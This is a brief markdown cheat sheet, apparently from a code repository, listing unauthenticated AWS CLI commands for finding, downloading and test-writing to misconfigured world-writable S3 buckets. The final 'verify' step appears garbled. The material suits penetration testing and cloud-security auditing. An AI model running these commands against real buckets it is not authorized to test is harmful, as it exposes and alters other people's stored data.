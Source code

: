 # World-Writable S3 Buckets Exploitation

### Steps and commands

 - mkdir TARGET_BUCKET_NAME; cd TARGET_BUCKET_NAME/ (Create a directory to possibly download all assets within the bucket locally)

 - aws s3 ls s3://BUCKET_NAME-BUCKET_ID --recursive --no-sign-request (List all content of the bucket recursively WITHOUT authentication)

 -  aws s3 cp s3://BUCKET_NAME-BUCKET_ID . --recursive --no-sign-request (Download all bucket contents at your current directory)

 -  aws s3api get-bucket-acl --bucket BUCKET_NAME-BUCKET_ID --no-sign-request (Check for misconfigured bucket ACLs. This is optional)

 -  aws s3api get-object-acl --bucket BUCKET_NAME-BUCKET_ID --key EXAMPLE/FILE.TXT --no-sign-request (Likewise for file ACLs)

 -  cd EXAMPLE/ (Go to a directory of our downloaded bucket content)

 - echo test > test (Create a test file to test for World-Writable Access in the bucket)

 - aws s3 cp test s3://BUCKET_NAME-BUCKET_ID/EXAMPLE/test --no-sign-request (Upload our test file to the bucket)

 - aws s3 cp test s3://BUCKET_NAME-BUCKET_ID/EXAMPLE/test - --no-sign-request (Verify that our file has been uploaded successfully)





